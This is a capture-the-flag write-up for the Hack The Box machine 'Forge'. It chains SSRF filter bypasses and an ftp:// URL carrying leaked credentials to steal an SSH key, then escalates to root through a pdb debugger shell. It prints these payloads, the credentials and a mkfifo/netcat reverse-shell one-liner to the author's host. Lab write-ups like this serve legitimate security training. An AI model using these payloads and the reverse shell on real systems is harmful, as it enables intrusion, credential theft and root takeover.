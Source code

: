 ![Pasted image 20220117172058](https://user-images.githubusercontent.com/67979878/150386086-4861b677-2020-4155-a952-f5602a1a8f35.png)

## Scanning  :
- basic scanning 

note : add ``<ip> forge.htb``  to the ``/etc/hosts``

```bash
nmap -sV -A -T 4 10.10.11.111 
```
output :
```bash
PORT   STATE    SERVICE VERSION
21/tcp filtered ftp
22/tcp open     ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 4f:78:65:66:29:e4:87:6b:3c:cc:b4:3a:d2:57:20:ac (RSA)
|   256 79:df:3a:f1:fe:87:4a:57:b0:fd:4e:d0:54:c6:28:d9 (ECDSA)
|_  256 b0:58:11:40:6d:8c:bd:c5:72:aa:83:08:c5:51:fb:33 (ED25519)
80/tcp open     http    Apache httpd 2.4.41
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Gallery
```

- we can run all ports scan in the Background Until we enumerate the ports we have But it won't return any new .

## Enumeration :

- port 21 : is Filtered trying to access it 

```bash
ftp <ip>
```
returns
```
ftp: connect: Connection timed out
```

so it seems we can't access it Publicly 

- port 80 : "the web application"

![Pasted image 20220117160658](https://user-images.githubusercontent.com/67979878/150385379-a3673dd6-6afc-4c36-a656-005fb6b8c753.png)

- we have upload an image Function with 2 options either from your machine or form url 


![Pasted image 20220117160925](https://user-images.githubusercontent.com/67979878/150385418-b64d5f29-c892-4a42-8a0d-34e864bcefa7.png)

- testing from my machine to upload a .png file and see 


![Pasted image 20220117161037](https://user-images.githubusercontent.com/67979878/150385435-f0d0d4a9-3f71-4dbd-a600-763df2ce9eb0.png)

- it also accepts any extension and assign a random name to it 

- testing from url : 

firing up a **python http server** at my local machine and it made the request successfully :

```bash
10.10.11.111 - - [16/Jan/2022 17:31:20] "GET /test.png HTTP/1.1"
```

what about internal address ?

- trying http://127.0.0.1 
result :
```bash
URL contains a blacklisted address!
```

so it makes some filtering in case we try localhost address indicating maybe we are against **SSRF**  .

trying some Bypasses and those doesn't return Blacklisted message 

```
http://127.1
http://LOCALHOST
```

trying : ``file:///etc/passwd ``
returns : 
```
Invalid protocol! Supported protocols: http, https
```

so now we know the following :
- we have ftp running internally
- we have ssrf to access local things
- accepts http and https only , ftp is not supported 

### More Enumeration :
Typically in HTB , another Vhost is a common scenario so trying to get Fuzzing it with ``ffuf``

```bash
ffuf -c -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million 5000.txt -u http://forge.htb/ -H "Host: FUZZ.forge.htb" -fc 302,404
```
output:
```
admin                   [Status: 200, Size: 27, Words: 4, Lines: 2]
```

add ``admin.forge.htb`` to ``/etc/hosts`` 

trying to access it :

![Pasted image 20220117161917](https://user-images.githubusercontent.com/67979878/150385477-1013b8a0-c3c9-4640-b559-7ea92825fa99.png)

so putting things together we will have one conclusion to continue from :

``forge.htb`` can make a valid request to ``admin.forge.htb``  , we can achieve that: 

Back to the upload from url vulnerable Function and trying ``http://admin.forge.htb``

returns the blacklist message , so  ``forge.htb``  seems to Be blocked also.

trying :  ``http://admin.forge.HTB``   then downloading the page and see contents :

![Pasted image 20220117162531](https://user-images.githubusercontent.com/67979878/150385490-101e172c-fb7f-4268-9afa-5f450ee1cfd7.png)

so we have the following directories at the ``admin.forge.htb``

```
/announcements
/upload
/
``` 

Back to the upload from url and requesting 
```
http://admin.forge.HTB/announcements
```

downloading the page to see the content we can see :

![Pasted image 20220117162839](https://user-images.githubusercontent.com/67979878/150385520-799829fb-86ef-4c90-9246-d9d514099f98.png)

- so we have credentials : **user:heightofsecurity123!**
- i tried to ssh with those But it can't access ssh with a public key so it seems we have to get the ``id_rsa`` somehow if we want to ssh into the machine.


- so depending on page ``/announcements`` we can use ``ftp://`` with the upload page in this ``admin.forge.HTB`` . 

#### Foothold :

```
http://admin.forge.HTB/upload?u=ftp://
```

But How could we access the ftp with a user:password from web url ? 
- reading [here](https://www.timeatlas.com/ftp-web-browser/)
- we can use the following syntax : 

```
http://admin.forge.HTB/upload?u=ftp://user:heightofsecurity123!@127.1
```

downloading the content :

```
drwxr-xr-x    3 1000     1000         4096 Aug 04 19:23 snap
-rw-r-----    1 0        1000           33 Jan 17 00:17 user.txt
```

seems we are in the home directory of user **user** so let's try read the id_rsa
- using the following url and download content :

```
http://admin.forge.HTB/upload?u=ftp://user:heightofsecurity123!@127.1/.ssh/id_rsa
```

![Pasted image 20220117163750](https://user-images.githubusercontent.com/67979878/150385552-dd62e5bd-26b1-4ea2-9d44-59c2231e462a.png)

```bash
chmod 600 id_rsa
ssh -i id_rsa user@10.10.11.111
```

### Privilege escalation :

![Pasted image 20220117165757](https://user-images.githubusercontent.com/67979878/150385566-786eff5b-0245-482b-934d-dc41bd7c42b9.png)

checking permissions :
```
-rwxr-xr-x 1 root root 1447 May 31  2021 /opt/remote-manage.py
```

reading and analyzing  the script :

- first it sets a listener on a random port 
- we can only access the port locally so we will get a second ssh session to interact with it .
```python
port = random.randint(1025, 65535)

try:
    sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    sock.setsockopt(socket.SOL_SOCKET, socket.SO_REUSEADDR, 1)
    sock.bind(('127.0.0.1', port))
    sock.listen(1)
    print(f'Listening on localhost:{port}')
    (clientsock, addr) = sock.accept()
```

2- asks for a password and it should = ``secretadminpassword`` , then waits for option from 1-4
```python3
clientsock.send(b'Enter the secret passsword: ')
if clientsock.recv(1024).strip().decode() != 'secretadminpassword':
	clientsock.send(b'Wrong password!\n')
...
......
....
 ```

3- options we have :

```python
...
....
......
except Exception as e:
    print(e)
    pdb.post_mortem(e.__traceback__)
finally:
    quit()
```

if we raise an error it will open  a ``pdb debugger shell `` which we can abuse to have a reverse shell as root :

![Pasted image 20220117170914](https://user-images.githubusercontent.com/67979878/150385582-7efe3939-cc50-4b42-a515-988ac249dea4.png)

the other ssh session to interact with the port listening :

![Pasted image 20220117170930](https://user-images.githubusercontent.com/67979878/150385598-ff6f93ba-41e8-4b42-acf5-a101556621be.png)

raised the error by typing ``id `` while it expects a number and get the pdb shell we can now get a reverse shell  :


```bash
(Pdb) import os 
(Pdb) os.system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc <my_ip> 9999 >/tmp/f")
```

![Pasted image 20220117171438](https://user-images.githubusercontent.com/67979878/150385624-8408316b-80a8-4cd2-b74b-6162eaef5c2b.png)

gain root reverse shell :

![Pasted image 20220117171117](https://user-images.githubusercontent.com/67979878/150385665-5343506f-4531-41bd-a128-73906184c020.png)

# Pwned 
